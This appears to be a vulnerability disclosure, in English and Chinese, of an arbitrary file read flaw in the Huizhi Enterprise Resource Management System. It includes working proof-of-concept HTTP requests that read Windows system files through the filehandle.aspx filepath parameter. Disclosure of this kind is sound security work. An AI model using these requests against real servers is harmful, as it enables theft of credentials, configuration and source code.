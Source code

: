 ##  汇智企业资源管理系统 存在任意文件读取漏洞

### Info

The program Huizhi Enterprise resource management system developed by Shenzhen Huizhi Software Development Co., Ltd. has any file reading vulnerability, which can read files at any system location: Sensitive data leakage: An attacker can exploit any file reading vulnerability to obtain sensitive information on the server, such as database connection strings, password files, API keys, etc., resulting in data leakage and potential losses. Profile theft: An attacker can read the profile of a Web system to obtain the structure, deployment details, and other critical information for further attack. Source code disclosure: An attacker can access the source code of a Web system, analyze and identify potential security vulnerabilities, or insert malicious code to achieve long-term control. Leak path: / nssys/common/filehandle. Aspx? filepath=C%3a%2fwindows%2fwin%2eini can read the windows configuration file windows.ini

------

深圳汇智软件开发有限公司 开发的程序 汇智企业资源管理系统 存在任意文件读取漏洞,可以读取任意系统位置文件：敏感数据泄露：攻击者可以利用任意文件读取漏洞获取服务器上的敏感信息，如数据库连接字符串、密码文件、API密钥等，从而导致数据泄露和潜在的损失。配置文件窃取：攻击者可通过读取Web系统的配置文件，获取网站的结构、部署细节和其他关键信息，以便进一步实施攻击。源代码泄露：攻击者可以访问Web系统的源代码，分析并找出潜在的安全漏洞，或插入恶意代码以实现长期控制。漏洞路径为：/nssys/common/filehandle.aspx?filepath=C%3a%2fwindows%2fwin%2eini可以读取windows配置文件 windows.ini

### Vuln information

![image-20240723093556878](2.png)

HTTP data

```http
GET /nssys/common/filehandle.aspx?filepath=C%3a%2fwindows%2fwin%2eini HTTP/1.1
Host: 127.0.0.1:8515
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.171 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: ASP.NET_SessionId=ckf5rppwogrghtsiog5mhnh3
Connection: keep-alive
```

![image-20240723093538594](1.png)

```
GET /nssys/common/filehandle.aspx?filepath=C%3a%2fwindows%2fdebug%2fnetsetup%2elog HTTP/1.1
Host: 127..0.0.1:8515
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.171 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: ASP.NET_SessionId=ckf5rppwogrghtsiog5mhnh3
Connection: keep-alive
```

![image-20240723093831023](3.png)